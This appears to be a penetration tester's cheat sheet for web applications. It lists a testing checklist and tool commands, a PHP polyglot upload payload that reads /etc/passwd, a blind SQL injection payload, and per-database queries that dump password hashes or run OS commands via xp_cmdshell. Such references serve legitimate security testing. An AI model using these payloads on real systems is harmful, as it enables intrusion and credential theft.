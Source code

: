 ----

###### <font style="color:#00b3ff">Methodology</font> 

```
-start a new Burp project
-burp scan
-nikto
-wafw00f
-wpscan (if wordpress)

(-sslcan / ssl labs / testssl.sh)
-dirbuster (or dirb)
-burp intruder (github list bruteforce) (with authentication cookie)
-sqlmap
-check js client code
		
-test manually the app:
	- session timeout
	- session invalidation on logout
	- concurrent session
	- username enumeration
	- account lockout
	- password complexity
	- headers, CSP
	- cookie/jwt storage
	- cookie flags
	- JWT security
	- autocomplete on forms
	- CSRF
	- Cache control
	- File Upload and Download
	- Data input validation
	- Error verbosity
	- Burp browser DOM invader
	- session fixation, randomness, protocols (HTTP?)
	- authentication, 2fa, password change, remember me, SSO
	- business logic flaws
	- websockets
	- privilege escalations
```


###### <font style="color:#00b3ff">File Upload</font> 

```
- create polyglot file:
	-> exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" img-background1.jpg -o polyglot.php
```

###### <font style="color:#00b3ff">Content Security Policy</font> 

```
- Check CSP: https://csp-evaluator.withgoogle.com/
```

###### <font style="color:#00b3ff">XSS</font> 

```
- Check jQuery version in the console: console.log(jQuery().jquery);
```

###### <font style="color:#00b3ff">WebDAV</font> 

```
-> make request with OPTIONS header in Burp
	-> if the response gives a lot of methods there is probably WebDAV enabled
-> use: cadaver (a WebDAV client on Kali Linux)
	-> cadaver http://xxxxx.com
-> use: davtest
```

###### <font style="color:#00b3ff">HTTP Verb to test</font> 

```
COPY, DELETE, GET, HEAD, LOCK, MOVE, OPTIONS, POST, PROPFIND, PROPPATCH, PUT, REPORT, UNLOCK, TRACE
```

###### <font style="color:#00b3ff">Additional Techniques</font> 

```
- Change user agent in dirbuster
- create a brute-force list with the crunch tool
```

###### <font style="color:#00b3ff">dotdotpwn</font> 

```
-> testing the path traversal
-> dotdotpwn.pl -m http -h 192.168.1.1 -M GET
```

###### <font style="color:#00b3ff">tplmap.py</font> 

```
-> testing the Server Side template injection
```

###### <font style="color:#00b3ff">Xampp</font> 

```
-> folder and webpages are accessible in the folder htdocs/
```

###### <font style="color:#00b3ff">Waf Bypass</font> 

```
-> use censys.io to retrieve original ip from a website
```

###### <font style="color:#00b3ff">Burp Suite</font> 

```
-> Extensions: Additional CSRF Checks, Bypass WAF, Heartbleed, JSON Beautifier, JSON Web Tokens, JOSEPH, Kerberos Authentication, psychoPATH, SAML Raider Certificates, Wsdler, Session Auth, AWS Security Checks, Auto-Repeater, Authorize

-> Update CRSF tokens with Macros: https://portswigger.net/support/using-burp-suites-session-handling-rules-with-anti-csrf-tokens

-> Match/replace rule:
	- to replace {base} add filter to \{base}
```

###### <font style="color:#00b3ff">jwtcat.py</font> 

```
-> Crack a jwt token:
	-> python3 jwtcat.py -t [1st_part_token].[2nd_part_token] -w /usr/share/wordlists/rockyou.txt
```

###### <font style="color:#00b3ff">SQL Injections</font> 

```
[*] MySQL

	DB version	->	SELECT @@version;
	Hostname and IP	->	SELECT @@hostname;
	Current DB	->	SELECT database();
	List DBs	->	SELECT distinct(db) FROM mysql.db;
	Current user	->	SELECT user();
	List users	->	SELECT user FROM mysql.user;
	List password hashes	->	SELECT host,user,password FROM mysql.user;

	blind sqli get first number of version:
		-> S0000001I' AND IF(MID(@@version,1,1)='5',sleep(1),1); #

	List all columns and tables:
		-> SELECT TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA !='mysql' AND TABLE_SCHEMA !='information_schema' AND TABLE_SCHEMA !='performance_schema' AND TABLE_SCHEMA !='sys';

	To get command execution:
		-> we need to have write permission for MySQL

	mysql shell:
		-> select load_file('/etc/passwd');

	Comments 	-> 	#


	[*] MS-SQL

	DB version 	->	SELECT @@version
	Detailed version info	->		EXEC xp_msver
	Run OS Command		->		EXEC master..xp_cmdshell 'net user'
	Hostname and IP		->		SELECT HOST_NAME()
	Current DB		->		SELECT DB_NAME()
	List DBs	->		SELECT name FROM master..sysdatabases;
	Current User	->	SELECT user_name()
	List users	->	SELECT name FROM master..syslogins
	List tables		->	SELECT name FROM master..sysobjects WHERE xtype='U';
	List columns	->	SELECT name FROM syscolumns WHERE id=(SELECT id FROM sysobjects WHERE name='mytable');

	Comments 	-> 		--


	[*] PostgreSQL

	DB version	->	SELECT version();
	Hostname and IP	->	SELECT inet_server_addr()
	Current DB	->	SELECT current_database();
	List DBs		->	SELECT datname FROM pg_database;
	Current user	->	SELECT user;
	List users		->	SELECT username FROM pg_user;
	List password hashes	->	SELECT username,passwd FROM pg_shadow

	Comments 	-> 		--


	[*] ORACLE

	DB version	->	SELECT * FROM v$version;
	DB version	->	SELECT version FROM v$instance;
	Current DB	->	SELECT instance_name FROM v$instance;
	Current DB	->	SELECT name FROM v$database;
	List DBs	->	SELECT DISTINCT owner FROM all_tables;
	Current user	->	SELECT user FROM dual;
	List users	->	SELECT username FROM all_users ORDER BY username;
	List columns	->	SELECT column_name FROM all_tab_columns;
	List tables		->	SELECT table_name FROM all_tables;
	List password hashes	->	SELECT name, password, astatus FROM sys.user$;

	Comments 	-> 		--
```